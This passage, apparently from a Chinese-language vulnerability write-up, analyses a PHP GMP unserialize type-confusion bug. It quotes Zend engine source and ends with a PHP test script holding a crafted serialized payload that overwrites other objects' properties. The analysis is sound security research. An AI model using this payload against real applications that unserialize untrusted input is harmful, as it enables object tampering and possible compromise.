 `zend_object_handlers.c`
```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
	zend_object *zobj;
	zobj = Z_OBJ_P(object);
	if (!zobj->properties) {
		rebuild_object_properties(zobj);
	}
	return zobj->properties;
}
```

从gmp.c中的片段中我们可以大致理解漏洞发现者taoguangchen的原话。

`__wakeup`等魔术方法可以导致ZVAL在内存中被修改。因此，攻击者可以将**object转化为整数型或者bool型的ZVAL，那么我们就可以通过`Z_OBJ_P`访问存储在对象储存中的任何对象，这也就意味着可以通过`zend_hash_copy`覆盖任何对象中的属性，这可能导致很多问题，在一定场景下也可以导致安全问题。

或许仅凭借代码片段没办法理解上述的话，但我们可以用实际测试来看看。

首先我们来看一段测试代码

```
<?php

class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 1;
    }
}

class b{
	var $ryat =1;
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$obj2 = new b;

$obj3 = new stdClass;
$obj3->aa =2;


$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);

$obj4 = new stdClass;

var_dump($x);
var_dump($obj);
var_dump($obj2);	
var_dump($obj3);
var_dump($obj4);

?>
```
